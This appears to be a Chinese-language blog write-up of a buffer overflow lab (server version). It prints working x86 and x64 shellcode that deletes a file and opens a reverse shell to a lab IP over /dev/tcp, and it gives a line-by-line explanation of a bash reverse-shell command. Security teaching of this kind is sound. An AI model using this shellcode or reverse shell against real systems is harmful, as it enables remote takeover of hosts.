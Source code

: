 这个task的任务是删除一个文件，也就是替换shellcode中的指令。首先执行 `ls` 然后用 `rm` 指令删除一个文件，然后再执行 `ls` 验证结果。shellcode如下：

```python
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/ls -l; /bin/rm target.txt; /bin/ls -l                *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```

运行结果如图：

![Screenshot 2024-04-02 at 4.45.12 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-02_at_4.45.12_PM.png)

# Task 2: Level-1 Attack

这个task是要打一个反弹shell，看了 ‘Makefile’ 发现这个server是一个32位的程序，所以只能用32位的shellcode来打。

下边是一个反弹 shell 的指令事例。

```bash
/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```

- `-i` 代表一个交互式的 shell，他可以从标准输入中读取字符串作为指令。
- `> /dev/tcp/10.0.2.6/9090` 把标准输出重定向到一个TCP连接上，这里和 `1>` 是等价的，因为 `1` 代表标准输出，可以省略。
- `0<&1 2>&1` 这里把标准输入和标准错误输出重定向到标准输出， `&` 不能省略，否则会被重定向到 `1` 这个文件中去。

于是构造shellcode：

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/bash -i > /dev/tcp/10.9.0.1:9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```

打印发现shellcode的长度为136个byte。
